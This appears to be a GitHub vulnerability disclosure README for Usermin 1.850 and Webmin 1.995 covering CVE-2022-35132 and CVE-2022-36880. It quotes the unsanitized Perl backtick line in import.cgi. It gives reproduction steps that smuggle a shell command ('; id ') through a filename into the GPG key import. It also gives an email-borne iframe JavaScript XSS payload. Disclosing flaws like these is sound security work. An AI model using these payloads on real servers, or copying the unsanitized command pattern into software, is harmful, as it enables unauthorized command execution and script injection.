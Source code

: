 # Usermin

Vulnerabilities for usermin 1.850 and prior.

## Code Execution 1 - CVE-2022-35132
Type: Authenticated code execution

A authenticated user can execute commands using the GPG module. This is useful if the shell module has been restricted for that user.

### Vulnerability:
`import.cgi` line 24 executes unsanitized user input.
```perl
$out = `$gpgpath --import '$in{'file'}' 2>&1`;
```

### Steps to reproduce:
1. `Usermin -> Tools -> File Manager -> File -> Create New File`
2. Filename must be command to run: `'; id '` this is because there is a check in `import.cgi` at line 19: ```-r $in{'file'} || &error($text{'import_efile'});``` to check if it is a valid file
3. `Usermin -> Applications -> GPG -> Manage Keys -> Import key (local file)`
4. Select the created file with command and import
4. Command is run as current user
5. Almost all chars except `/\` are valid

## Email XSS - CVE-2022-36880
Type: XSS

JavaScript is not escaped properly in emails received

### Steps to reproduce:
Receive email with the following html payload:
```html
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
```



# Webmin

Vulnerabilities for webmin 1.995 and prior.

## Email XSS - CVE-2022-36880
Type: XSS

JavaScript is not escaped properly in emails received

### Steps to reproduce:
Receive email with the following html payload:
1. Go to `Read user mail`
2. Press on email with payload bellow
3. Press `View` HTML document
```html
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
```
